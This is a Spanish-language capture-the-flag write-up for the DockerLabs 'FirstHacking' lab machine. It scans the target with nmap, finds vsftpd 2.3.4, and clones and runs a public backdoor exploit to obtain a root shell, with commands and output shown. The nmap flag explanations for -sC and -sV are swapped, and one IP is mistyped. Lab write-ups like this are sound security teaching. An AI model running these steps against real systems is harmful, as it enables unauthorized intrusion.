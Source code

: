 ## WRITEUP DE LA MAQUINA FIRSTHACKING DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

```shell
└─$ nmap -sC -sV --min-rate 5000 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br>
"--min-rate 5000" Ajusta la tasa mínima de envío de paquetes a 5000 paquetes por segundo, acelerando el escaneo.
<br>
"172.17.0.2" Es la dirección IP de la máquina víctima.
<br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

En este caso no he utlizado el -p- y el -n ya que me tardaba mucho hacer el escaneo y para algo tan sencillo es mas eficaz y rapido ejecutar un comando mas corto.

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-17 11:12 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000099s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.35 seconds
```
Vemos que el puerto 21 del servicio ftp está abierto, en este caso nos vamos a fijar en la versión de dicho servicio (vsftpd 2.3.4). Para explotar esta versión nos guiaremos con un repositorio de github muy bien explicado del usuario " Hellsender01", aqui la url: https://github.com/Hellsender01/vsftpd_2.3.4_Exploit . Aquí encontraremos la explicación de dicha versión del servicio ftp y la vulnerabilidad de este, asi como los requisitos para poder ejecutar el exploit de python y el propio exploit. 

Ejecutarlo es tan sencillo como tener instalada la biblioteca "pwntools" que proporciona herramientas para el desarrollo de exploits y la explotación de vulnerabilidades, para ello ejecutamos el comando:
```shell
sudo python3 -m pip install pwntools
```
"sudo" Permite ejecutar el comando con privilegios de superusuario. En sistemas basados en Unix (como Linux), esto es necesario para instalar paquetes en el sistema global.
<br><br>
"python3 -m pip" Ejecuta pip (el gestor de paquetes para Python) usando la versión de Python 3. 
<br><br>
El flag "-m" permite ejecutar un módulo como un script.
<br><br>
"install" Indica que pip debe instalar el paquete.
<br><br>
"pwntools" Es el nombre del paquete que quieres instalar.
<br>
Ahora con los requerimientos listos, toca descargar el exploit y un par de comandos mas (explicados más adelante)

```shell
git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git
cd vsftpd_2.3.4_Exploit/
chmod +x exploit.py
```
"git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git" Clona (es decir, crea una copia) de un repositorio de Git en tu máquina local. El repositorio se encuentra en la URL que proporcionas.
<br><br>
"cd vsftpd_2.3.4_Exploit/" Cambia el directorio actual a la carpeta vsftpd_2.3.4_Exploit/, que es el directorio creado por el comando git clone.
<br><br>
"chmod +x exploit.py" El comando chmod (change mode) modifica los permisos del fichero o directorio que indiques, si añades un "+x" despues del chmod conseguiras dar permisos de ejecucion tanto para el propietario, grupo y otros.
<br><br>
Ahora solo falta ejecutarlo para conseguir ser root, para ello escribimos:
```shell
sudo python3 exploit.py 172.17.0.2 
```
"sudo" permite ejecutar comandos con privilegios de superusuario.
<br>
"python3" ejecuta python y en concreto la version python3.
<br>
"exploit.py" indica el archivo python (.py) que se va a ejecutar.
<br>
"171.17.0.2" es la ip de la maquina víctima.

```shell
[+] Got Shell!!!
[+] Opening connection to 172.17.0.2 on port 21: Done
[*] Closed connection to 172.17.0.2 port 21
[+] Opening connection to 172.17.0.2 on port 6200: Done
[*] Switching to interactive mode
$ whoami
root
```
Somos root! muchas gracias por seguir este writeup!
